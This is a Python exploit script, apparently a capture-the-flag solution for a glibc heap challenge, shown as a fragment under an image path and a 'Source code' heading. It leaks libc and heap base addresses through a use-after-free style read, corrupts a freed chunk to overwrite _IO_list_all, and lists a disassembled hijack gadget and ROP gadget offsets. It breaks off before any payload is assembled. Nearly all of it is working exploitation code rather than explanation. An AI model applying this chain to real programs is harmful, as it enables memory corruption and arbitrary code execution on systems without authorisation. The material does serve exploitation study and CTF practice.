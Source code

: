 ```python

def edit(idx, data):
    cmd(3)
    ru(b"Index: ")
    sl(i2b(idx))
    ru(b"Content: ")
    s(data)


def show(idx):
    cmd(4)
    ru(b"Index: ")
    sl(i2b(idx))


add(0, 0x510)
add(1, 0x900)
add(2, 0x520)
add(3, 0x900)
delet(2)
add(4, 0x900)
delet(0)

show(2)
libc_base = u64_ex(ru(b"\n", drop=True)) - 0x1F70F0
lg("libc_base", libc_base)
edit(2, b"a" * 0x10)
show(2)
ru(b"a" * 0x10)
heap_base = u64_ex(ru(b"\n", drop=True)) - 0x10C0
lg("heap_base", heap_base)

edit(
    2,
    flat(
        {
            0: [
                libc_base + 0x1F70F0,
                libc_base + 0x1F70F0,
                heap_base + 0xDC0,
                libc_base + libc.sym._IO_list_all - 0x20,
            ]
        }
    ),
)
add(5, 0x900)

"""
1630aa:>  48 8b 6f 48          >  mov    rbp,QWORD PTR [rdi+0x48]
1630ae:>  48 8b 45 18          >  mov    rax,QWORD PTR [rbp+0x18]
1630b2:>  4c 8d 6d 10          >  lea    r13,[rbp+0x10]
1630b6:>  c7 45 10 00 00 00 00 >  mov    DWORD PTR [rbp+0x10],0x0
1630bd:>  4c 89 ef             >  mov    rdi,r13
1630c0:>  ff 50 28             >  call   QWORD PTR [rax+0x28]
"""
magic_gadget = libc_base + 0x1630AA
leave_ret = libc_base + 0x0000000000050877
add_rsp_0x38_ret = libc_base + 0x0000000000054BF4
pop_rdi_ret = libc_base + 0x0000000000023B65
pop_rsi_ret = libc_base + 0x00000000000251BE
pop_rdx_ret = libc_base + 0x0000000000166262
pop_rax_ret = libc_base + 0x000000000003FA43

```